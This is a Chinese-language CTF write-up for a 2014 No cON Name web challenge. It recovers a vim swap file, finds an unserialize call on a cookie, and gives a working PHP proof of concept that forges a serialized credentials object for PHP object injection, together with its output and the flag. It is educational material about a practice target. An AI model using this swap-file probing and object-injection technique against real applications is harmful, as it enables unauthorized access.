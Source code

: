 # No cON Name CTF Quals 2014: MakeMeFeeWet^Hb

**Category:** Web
**Points:** 300
**Description:**

> Access == Flag
>
> Url: https://ctf.noconname.org/makemefeelweb/

## Write-up

頁面進入只有帳號密碼登入頁面，初步判斷沒有 SQL Injection。

檢視原始碼發現註解：

```
<!-- vim: set ts=2 sw=2: -->
```

初步判斷可能有 vim 備份文件。

經猜測後找到 [.login.php.swp](https://github.com/hsttw/write-ups/blob/master/no-con-name-ctf-quals-2014/MakeMeFeeWet%5EHb/login.php.swp)，可以看到片段的內容：

```
    @$data = unserialize(hex2bin(implode(explode("\\x", base64_decode($cookie)))));
if (isset($_COOKIE['JSESSIONID'])) {
    if ($username == "p00p" && $password == "l!k34b4u5") {
        $this->p = $_passwd;
        $this->u = $_uname;
    public function __construct($_uname, $_passwd) {
    public $p;
    public $u;
class Creds {
```

看到 `unserialize` 直覺是 Object Injection，設定 cookie `JSESSIONID` 後 `GET login.php` 得到

```
Getting close :)
```

判斷應該是透過 `JSESSIONID` 做 Object Injection。

根據片段的內容拼湊了一下 Object：

```
O:5:"Creds":2:{s:1:"u";s:4:"p00p";s:1:"p";s:9:"l!k34b4u5";}
```

接著對這段做 `bin2hex` 再 `base64_encode`，將得到的值設定 cookie `JESSIONID`，重新 `GET login.php` 即可得到 flag。

```
NcN_778064be6556e64577517875a8710b0abeba1578
```

ps. 也可以以下的 POC.php 產生 object injection 所需的東西
```
<?php
class Creds
{
   public $u = "p00p";
   public $p = "l!k34b4u5";
}

print "Original object injection: ".serialize(new Creds)."\n";
print "JSESSIONID=".urlencode(base64_encode(bin2hex(serialize(new Creds))))."\n";
?>
```
php POC.php
```
Original object injection: O:5:"Creds":2:{s:1:"u";s:4:"p00p";s:1:"p";s:9:"l!k34b4u5";}
JSESSIONID=NGYzYTM1M2EyMjQzNzI2NTY0NzMyMjNhMzIzYTdiNzMzYTMxM2EyMjc1MjIzYjczM2EzNDNhMjI3MDMwMzA3MDIyM2I3MzNhMzEzYTIyNzAyMjNiNzMzYTM5M2EyMjZjMjE2YjMzMzQ2MjM0NzUzNTIyM2I3ZA%3D%3D
```

